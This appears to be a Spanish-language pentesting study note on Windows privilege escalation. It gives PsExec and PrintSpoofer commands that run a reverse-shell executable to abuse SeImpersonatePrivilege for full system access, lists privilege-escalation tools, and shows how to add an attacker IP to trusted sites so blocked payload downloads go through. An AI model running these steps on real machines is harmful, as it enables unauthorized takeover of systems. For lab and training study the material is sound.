 # **Token Impersonation - PrintSpoofer**
```
https://github.com/itm4n/PrintSpoofer
```

Ahora nos generamos una reverse shell como `nt authority\local`
```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
![[Pasted image 20240723080446.png]]
![[Pasted image 20240723090847.png]]

Ahora nos volvemos a poner en escucha con netcat y ejecutamos el siguiente comando para obtener 
```
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```
![[Pasted image 20240723092015.png]]
`PrintSpoofer` utiliza el privilegio `SeImpersonatePrivilege` para suplantar al servicio de impresión de Windows, ejecutando un comando con privilegios elevados y proporcionando acceso completo a la máquina objetivo.

Y como vemos obtenemos acceso con todos los privilegios
![[Pasted image 20240723092258.png]]
![[Pasted image 20240723092349.png]]

# **Privilege Escalation Scripts**
```
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
https://github.com/GhostPack/Seatbelt
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
https://github.com/GhostPack/SharpUp
```



------
# **Permitir descargas bloqueadas**
Si accedemos al navegador de microsoft y al intentar descargar un payload conectándonos al servidor que hemos levantado en nuestra maquina y salta el siguiente mensaje
![[Pasted image 20240722092340.png]]

Tenemos que habilitar la confianza en nuestra ip, para ello vamos a configuración y a `opciones de internet`
![[Pasted image 20240722092533.png]]

Y tenemos que añadir la ip a sitios de confianza
![[Pasted image 20240722092624.png]]
